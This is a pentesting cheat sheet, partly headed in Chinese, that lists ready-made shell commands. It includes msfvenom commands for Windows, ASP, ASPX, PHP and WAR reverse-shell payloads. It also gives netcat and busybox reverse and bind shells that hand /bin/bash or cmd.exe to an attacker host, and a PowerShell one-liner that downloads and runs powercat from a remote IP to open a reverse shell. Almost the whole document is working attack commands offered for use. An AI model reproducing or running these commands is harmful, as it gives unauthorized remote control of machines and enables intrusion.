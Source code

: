 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py 
```
### Web Shell
- Windows ASP reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
```
- Windows ASPX reverse shell
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```
- PHP reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```
### Java WAR reverse shell
```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
```

# Shell 相關指令速查
>[!WARNING]
> - reverse shell 
> - web shell
## 常見Reverse Shell
### netcat reverse shell
- Kali
```
sudo nc -lvnp 443
```
- Target
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```
### buzybox
```
busybox nc 172.16.1.2 443 -e /bin/bash
```
```
busybox+nc+172.16.1.2+443+-e+/bin/bash
```
### netcat bind shell
- Kali
```
nc MACHINE_IP <port>
```
- Target
```
nc -lvnp <port> -e "cmd.exe"
```
### powercat reverse shell
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.164:8000/powercat.ps1'); powercat -c 192.168.45.164 -p 4444 -e powershell"
```
### Linux Reverse Shell
```
```